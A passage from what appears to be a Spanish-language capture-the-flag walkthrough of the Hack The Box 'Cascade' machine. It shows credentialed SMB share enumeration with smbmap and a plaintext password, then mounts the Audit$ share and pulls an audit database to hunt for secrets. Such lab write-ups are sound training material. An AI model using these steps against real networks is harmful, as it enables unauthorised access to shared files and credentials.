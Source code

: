 ```bash
The command completed successfully.
```

Vemos que pertenecemos al Group `Audit Share` & `IT`

```bash
# smbmap -H 10.10.10.182  -u s.smith -p sT333ve2       
[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

Procedemos a montarnos una Montura

```bash
# mount -t cifs //10.10.10.182/AUDIT$ /mnt/ -o username=s.smith,password=sT333ve2,domain=casscade.local,rw

```

```bash
# tree /mnt                                                                                                                                                                                                                           1 ⚙
/mnt
├── "CascAudit.exe"
├── CascCrypto.dll
├── DB
│   └── "Audit.db"
├── RunAudit.bat
├── System.Data.SQLite.dll
├── System.Data.SQLite.EF6.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll

3 directories, 8 files
                        
```

Procedemos a descargarnos el archiv "Audit.db" para ver si contiene informacion interesante.

```bash
#ls                                                                                                                                                                    
Audit.db  CascAudit.exe  MapAuditDrive.vbs  MapDataDrive.vbs
```
